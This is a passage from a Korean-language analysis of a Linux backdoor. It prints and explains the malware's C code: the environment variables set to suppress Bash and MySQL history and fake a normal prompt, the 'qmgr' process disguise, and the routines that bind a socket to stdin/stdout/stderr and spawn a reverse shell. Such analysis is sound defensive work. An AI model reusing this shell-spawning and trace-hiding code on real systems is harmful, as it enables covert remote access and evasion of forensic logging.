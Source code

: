 ```c
        0x2f, 0x73, 0x62, 0x69, 0x6e, 0x3a, 0x2f, 0x75, 0x73, 0x72, 0x2f,
        0x58, 0x31, 0x31, 0x52, 0x36, 0x2f, 0x62, 0x69, 0x6e, 0x3a, 0x2e,
        0x2f, 0x62, 0x69, 0x6e, 0x00}; // PATH=/bin:/usr/kerberos/sbin:/usr/kerberos/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin:./bin
char term[] = "vt100";
```

`shell()` 함수에 `qmgr -l -t fifo -u`라는 이름과 환경 변수 등이 하드코딩되어 있다  

피해자 시스템에서의 쉘 실행을 위장하고 로그를 남기지 않기 위해 설정한 환경 변수와 명령어 인자 배열로 구성되어있다  

- `HOME=/tmp`: 임시 디렉토리에서 작업하여 흔적을 제한한다
- `PS1=[\u@h \W]\\$]`: 정상 쉘 프롬프트처럼 보이도록 위장한다
- `HISTFILE=/dev/null`: Bash 히스토리에 명령어 로그를 저장하지 않는다
- `MYSQL_HISTFILE=/dev/null`: MySQL 접속 시 명령어 로그를 저장하지 않는다
- `PATH=...`: 다양한 시스템 바이너리 디렉토리를 지정하여 실행 안정성을 확보한다
- `TERM=vt100`: 텍스트 터미널 유형을 지정하여 인터랙티브 쉘 호환성을 갖춘다

<br>

---

```c
write(sock, "3458", 4);
if (!open_tty()) {
        if (!fork()) {
                dup2(sock, 0);
                dup2(sock, 1);
                dup2(sock, 2);
                execve(sh, argvv, envp);
        }
        close(sock);
        return 0;
}
```

“3458” 문자열을 전송하여 쉘 함수가 실행되었음을 알리고 가상 터미널을 잡지 못한 경우 소켓에 표준 입출력을 모두 붙이고 쉘을 실행한다  

해당 문자열을 통해 공격자는 리버스 쉘이 성공적으로 연결되었는지 확인할 수 있다  

“3458” 문자열은 변종에 따라 없거나 다를 수 있다  
<br>

---

```c
subshell = fork();
if (subshell == 0) {
        close(pty);
        ioctl(tty, TIOCSCTTY);
        close(sock);
        dup2(tty, 0);
        dup2(tty, 1);
        dup2(tty, 2);
        close(tty);
        execve(sh, argvv, envp);
}
close(tty);
```
